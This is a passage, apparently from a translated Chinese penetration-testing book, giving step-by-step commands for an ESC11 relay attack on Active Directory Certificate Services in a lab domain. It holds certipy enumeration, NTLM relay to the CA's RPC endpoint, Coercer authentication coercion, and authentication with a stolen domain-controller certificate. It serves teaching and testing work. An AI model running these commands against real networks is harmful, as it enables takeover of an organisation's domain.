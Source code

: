 1.  使用`certipy`检查 CA 是否对 ESC11 存在漏洞：

    ```
    certipy find -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -stdout
    ```

    结果如下所示：

![图 8.42 – CA 对 ESC11 攻击存在漏洞](img/B18964_08_42.jpg)

图 8.42 – CA 对 ESC11 攻击存在漏洞

1.  启动监听器，使用`DomainController`模板定位 CA：

    ```
    certipy relay -target 'rpc://braavos.essos.local' -ca 'ESSOS-CA' -template DomainController
    ```

1.  使用`Coercer`工具强制认证：

    ```
    python3 Coercer.py coerce -u 'khal.drogo' -p 'horse' --target-ip 192.168.56.12 --listener-ip 192.168.56.100
    ```

1.  使用域控制器的计算机账户证书进行认证：

    ```
    certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12
    ```

    结果在以下截图中显示：

![图 8.43 – 成功的 ESC11 攻击](img/B18964_08_43.jpg)
